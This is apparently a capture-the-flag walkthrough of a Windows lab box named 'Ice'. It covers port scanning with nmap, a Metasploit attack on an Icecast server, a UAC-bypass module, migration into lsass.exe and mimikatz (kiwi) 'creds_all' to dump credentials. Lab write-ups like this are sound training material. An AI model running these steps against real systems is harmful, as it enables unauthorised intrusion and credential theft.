 # Ice

> Nashia Holloway | May 8th, 2020

## Task 2 Recon

```
sudo nmap -sS -p- $IP -oN initial.nmap
```

![](initial.png)

We have RDP, SMB, Web Services on Devices (WSD) API, and http running on some ports. We need a little more info.

```
nmap -sC -sV $IP -oN more.nmap
```

![](more.png)

We have an Icecast server running, which is a media server. 

## Task 3 Gain Access & Elevate Privs

![](exploit.png)

Set the RHOSTS and run. We get a meterpreter shell as Dark. We can use `exploit/windows/local/bypassuac_eventvwr` after running `run post/multi/recon/local_exploit_suggester`. Out new shell is a Windows one, so we can run `whoami /privs` to see what user privileges we have.

A good one to have is `SeTakeOwnershipPrivilege` to take ownership of files and other objects (allowing us to migrate to another process).

## Task 3 Looting

We have to migrate to an x64 process first, before migrating to lsass.exe. After that, `load kiwi` to get mimikatz.

```
creds_all
```

![](creds.png)

